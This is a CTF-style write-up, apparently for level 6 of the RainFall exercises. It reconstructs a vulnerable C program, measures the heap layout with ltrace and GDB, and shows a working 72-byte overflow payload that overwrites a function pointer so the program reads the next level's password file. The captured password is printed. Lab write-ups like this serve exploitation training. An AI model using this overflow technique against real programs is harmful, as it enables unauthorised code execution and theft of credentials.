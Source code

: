 # Level 6

## Answer
Our C source code generates the same assembly code as the original binary. Compile it as follows:
```
gcc -fno-stack-protector source.c
```

Let's take a look at the source code:
```c
#include <stdlib.h>
#include <string.h>

void n()
{
    system("/bin/cat /home/user/level7/.pass");
}

void m()
{
    puts("Nope");
}

int main(int ac, char **argv)
{
    int *buffer;
    void (**func)(void);

    buffer = (char *)malloc(64);
    func = (void (**)(void))malloc(4);

    *func = m;
    strcpy(buffer, argv[1]);
    (*func)();
}
```

Let's focus on the `main` function. It reads input from the command line then copies it to our buffer using `strcpy`, which is known to be unsafe due to its potential for causing buffer overflows, as it lacks a mechanism to limit the number of bytes copied.

Since we're interacting with the heap here we won't have to worry about the stack layout, in this case we'll have to overflow the buffer until we reach the function pointer and write the address of the `n` function to it.

We'll use `ltrace` to understand the memory allocations and calculate the size needed for the overflow:
```bash
$ ltrace ./level6 test
__libc_start_main(0x804847c, 2, 0xbffff7e4, 0x80484e0, 0x8048550 <unfinished ...>
malloc(64) = 0x0804a008
malloc(4) = 0x0804a050
[...]
```

We notice that the first memory block is allocated 64 bytes and the second one 4 bytes. Furthermore, we also notice that the address of the first block is `0x0804a008` and the address of the second one is `0x0804a050`.  
So we simply have to subtract the addresses to get the size of the overflow needed to reach the function pointer: `0x0804a050` - `0x0804a008` = 0x48 (72 in decimal)

Using GDB we find that the address of the `n` function is `0x08048454`.

We can then craft our payload:
```
padding + address of n

"A"*72 + "\x08\x04\x84\x54"[::-1]
```

Let's run our payload:
```bash
level6@RainFall:~$ ./level6 `python -c 'print("0"*72 + "\x08\x04\x84\x54"[::-1])'`
f73dcb7a06f60e3ccc608990b0a046359d42a1a0489ffeefd0d9cb2d7c9cb82d
```

We are now level7! Let's move on to the next level.

